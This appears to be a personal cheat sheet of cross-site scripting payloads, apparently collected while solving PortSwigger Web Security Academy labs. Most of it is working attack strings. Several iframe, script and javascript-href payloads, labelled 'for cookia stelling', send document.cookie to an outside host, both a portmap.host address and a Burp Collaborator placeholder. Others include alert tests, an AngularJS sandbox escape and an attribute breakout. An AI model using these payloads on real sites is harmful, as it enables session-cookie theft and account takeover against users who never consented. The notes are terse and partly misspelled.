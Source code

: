 
|||||||||||||||||||||||||||||||||||||||||||||||||||||
Cheat-sheet link : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onafterscriptexecute
|||||||||||||||||||||||||||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101'+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); console.log(document.cookie);" >


<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

for cookia stelling herf
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});




for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>



|||||||||||||||||||||||||||||||||||||||||||||||||||||
html entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;

for anchor href inputs this payload to store <a src="javascript:alert(1)">website</a> ++++===>
javascript:alert(1)


||||||||||||||||||||||||||||||||||||||||||||||||||||||
for testing =====>
<iframe src="javascript:alert('xss');" >
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
<><img src=1 onerror=alert(1)>

||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url payloads =========>
"></select><img%20src=1%20onerror=alert(1)>
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
